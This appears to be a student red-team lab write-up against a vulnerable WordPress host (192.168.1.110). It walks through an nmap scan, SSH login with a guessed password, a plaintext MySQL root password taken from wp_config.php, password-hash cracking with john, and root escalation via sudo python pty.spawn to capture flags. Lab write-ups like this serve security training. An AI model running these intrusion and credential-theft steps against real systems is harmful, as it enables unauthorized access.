# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap scan: nmap -sV 192.168.1.110
 
```


This scan identifies the services below as potential points of entry:

- Target 1

  - :22 - SSH
  
  - :80 - HTTP
  
  - :111 - rpcbind
  
  - :139 - netbios / smb
  
  - :445 - netbios / smb


The following vulnerabilities were identified on each target:

- **Target 1**

	- **wpscan user enumeration**
 
 	 	- wpscan was able to enumerate users to uncover usernames for the target system.
	

	- **SSH with Password**
 
		- No SSH key being used.

 		- User michael had a password that can be easily guessed.
 	
	
	- **Python can run with sudo**

		- User steven has the ability to run python with sudo
	
		- Python can execute arbitrary code on the system, ultimately creating a loophole for escalated privelages to root access.
	

	- **Database credentials in plain text**

		- Database credentials for the wordpress site were found in /var/www/html/wp_config.php. Once I gained root access to the database, I was able to use mysql to search for files containing the string "flag" within it's contents.
	
	- **CVE-2017-3167**
	
		- Authentication bypass is possible on the version of Apache running on the server.
	
	- **CVE-2017-7494**
		- Version of samba running on the server is insecure and allows for remote code execution.


-***Initial scans to find vulnerabilities:***





### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d

    - **Exploit Used**
      - Exploit: Weak password for user michael/ open SSH port, no SSH key set.
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + cd /var/www
	      + grep -ER flag1

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Exploit: Weak password for user michael/ open SSH port, no SSH key set.
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + cd /var/www
	      + cat flag2.txt
	      
	      
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Exploit: Root credentials (not hashed) for the mysql database were saved in /var/www/html/wp_config.php
      
      - Commands run: 
	      + ssh michael@192.168.1.110
	      + nano /var/www/html/wp_config.php
	      + mysql -u root -p wordpress (password: R@v3nSecurity)
			- mysql > show databases;
			 - use wordpress
			 - show tables;
			 - select * from wp_posts;
			
			
			
			
  - `flag4.txt`(As Root): 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Exploit:
      		-Privilege escalation using python
      
      		- After gaining access to steven's password hash via mysql, I used the john command on hash.txt, where I saved steven's password hash. 
      		- Checked permissions levels for steven and found that python can be used for privilege escalation.
      
- Commands run: 
  	
		-mysql> select * from wp_users;
		
		
  	
		-root@kali$> echo "(stevens password hash)" > hashes.txt
		
		-john hashes.txt
		
		
    
		-ssh steven@192.168.1.110
		
		-sudo -l
     	 
 		
 		
 		- sudo python -c 'import pty;pty.spawn("/bin/bash");'
 		
 		-cd /root
 		
 		-ls
 		
 		-cat flag4.txt
 		
		
		
		

			 
			 